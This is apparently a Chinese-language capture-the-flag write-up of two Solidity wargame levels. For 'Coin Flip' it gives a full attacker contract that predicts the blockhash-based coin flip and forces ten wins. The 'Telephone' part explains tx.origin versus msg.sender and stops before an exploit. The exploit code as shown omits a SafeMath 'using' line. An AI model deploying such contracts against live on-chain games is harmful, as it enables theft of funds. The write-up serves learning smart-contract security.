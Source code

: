 ## 3. Coin Flip
猜硬幣正反面遊戲，需連續猜對 10 次（不同 block）i.e. `consecutiveWins = 10`

用 block.number 作為隨機數
```solidity
uint256 blockValue = uint256(blockhash(block.number.sub(1)));
```
每次猜測需在不同 block
```solidity
if (lastHash == blockValue) {
    revert();
}
```
### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import './SafeMath.sol';

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlip {
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function guess(address levelInstance) public {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
        if (side == true) {
            ICoinFlip(levelInstance).flip(true);
        } 
        else {
            ICoinFlip(levelInstance).flip(false);
        }
    }
}
```
Check `consecutiveWins`
```javascript
await contract.consecutiveWins().then(v => v.toString())
// Output: '10'
```
Level completed.

## 4. Telephone
目標 `owner = player`

了解 tx.origin 與 msg.sender 的差別：
```solidity
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
```
### 舉例：A->B->C->D 
#### Inside D:
- msg.sender 為 C (sender of the message) 
- tx.origin 為 A (sender of the transaction)
